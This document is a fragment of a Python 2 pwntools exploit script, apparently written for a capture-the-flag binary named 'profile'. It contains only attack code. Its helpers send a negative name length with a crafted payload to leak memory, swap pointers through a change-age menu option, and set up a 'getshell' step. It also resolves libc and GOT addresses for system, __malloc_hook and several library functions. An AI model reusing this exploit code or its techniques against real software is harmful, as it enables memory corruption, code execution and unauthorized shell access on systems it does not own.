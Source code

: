 ```

def cr_up_profile(choose,name_len,name,age):
	io.recvuntil('>')
	io.send(choose)
	io.recv()
	io.sendline(name_len)
	io.recvuntil('Input your name:\n')
	io.sendline(name)
	io.recvuntil('Input your age:\n')
	io.sendline(age)

def print_profile(address):
	io.recvuntil(">")
	io.sendline('2')
	data = io.recv().splitlines()[0][11:15][::-1]
	log.info("%#x => %s" % (address, (data or '').encode('hex')))
	return data

def change_age(address1,address2):
	io.sendline('4')
	io.recvuntil('Person 1:')
	io.send(p32(address1))
	io.recvuntil('Person 2:')
	io.send(p32(address2))

def leak(address):
	payload = p32(address) + 'a' * 4 + p32(10)
	cr_up_profile('3','-10',payload,'10')
	return print_profile(address)


def getshell(address1,address2,address3):
	change_age(address1,address2)
	cr_up_profile('3','20',address3,'20')


#libc addr
libc=ELF('/lib/i386-linux-gnu/libc.so.6')
symbols = ['environ', '_environ', '__environ']
for symbol in symbols:
	environ = libc.symbols[symbol]
print "environ:"+hex(environ)
head=libc.symbols['__curbrk']
print "head:"+hex(head)
system=libc.symbols['system']
print "system:"+hex(system)
__malloc_hook=libc.got['__malloc_hook']
print "__malloc_hook:"+hex(__malloc_hook)

#profile addr
elf = ELF('/home/h11p/hackme/huxiangbei/profile')
printf_addr=elf.got['printf']
puts_addr=elf.got['puts']
atoi_addr=elf.got['atoi']
malloc_addr=elf.got['malloc']
__isoc99_scanf_addr=elf.got['__isoc99_scanf']
read_addr=elf.got['read']
print "printf_addr:"+hex(printf_addr)
print "puts_addr:"+hex(puts_addr)
print "atoi_addr:"+hex(atoi_addr)
print "malloc_addr:"+hex(malloc_addr)
print "__isoc99_scanf_addr:"+hex(__isoc99_scanf_addr)
print "read_addr:"+hex(read_addr)
```